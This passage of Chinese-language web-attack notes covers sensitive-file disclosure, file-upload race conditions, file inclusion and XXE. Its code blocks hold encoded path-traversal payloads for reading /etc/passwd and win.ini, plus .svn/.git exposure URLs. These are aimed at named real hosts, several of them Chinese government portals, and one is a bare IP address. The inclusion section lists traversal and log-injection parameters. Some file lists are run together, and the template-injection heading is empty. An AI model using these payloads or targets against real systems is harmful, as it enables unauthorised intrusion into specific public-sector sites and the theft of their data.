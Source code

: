 - 用户目录下的敏感文件：.bash_history/.zsh_history/.profile/.bashrc/.gitconfig/.viminfopasswd
- 应用的配置文件：/etc/apache2/apache2.conf, /etc/nginx/nginx.conf
- 应用的日志文件：/var/log/apache2/access.log, /var/log/nginx/access.log
- 站点目录下的敏感文件：.svn/entries.git/HEADWEB-INF/web.xml.htaccess
- 特殊的备份文件：.swp/.swo/.bak/index.php
- Python的Cache：__pycache__\__init__.cpython-35.pyc

```
http://www.gdzwfw.gov.cn/portal/static//..%c1%9c..%c1%9c..%c1%9c..%c1%9c..%c1%9c..%c1%9c..%c1%9c..%c1%9c/windows/win.ini

http://gcjs.jiangmen.cn/framework-ui/src//%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c/etc/passwd

http://zfbz.maoming.gov.cn/css/.svn/entries

http://ggzy.zhuhai.gov.cn:8092/GPC/.git/HEAD
```



## 文件上传

> 竞争上绕过
>
> 有的服务器采用了先保存，再删除不合法文件的方式，在这种服务器中，可以反复上传一个会生成Web Shell的文件并尝试访问，多次之后即可获得Shell

```
http://bbs.968115.cn/backup.sh

```



## 文件包含

常见的文件包含漏洞的形式为 `<?php include("inc/" . $_GET['file']); ?>`

考虑常用的几种包含方式为

- 同目录包含 `file=.htaccess`
- 目录遍历 `?file=../../../../../../../../../var/lib/locate.db`
- 日志注入 `?file=../../../../../../../../../var/log/apache/error.log`
- 利用 `/proc/self/environ`

其中日志可以使用SSH日志或者Web日志等多种日志来源测试

```
http://183.63.186.142:8080/.htaccess
```

## XXE

> 当允许引用外部实体时，可通过构造恶意的XML内容，导致读取任意文件、执行系统命令、探测内网端口、攻击内网网站等后果。一般的XXE攻击，只有在服务器有回显或者报错的基础上才能使用XXE漏洞来读取服务器端文件，但是也可以通过Blind XXE的方式实现攻击

## 模版注入

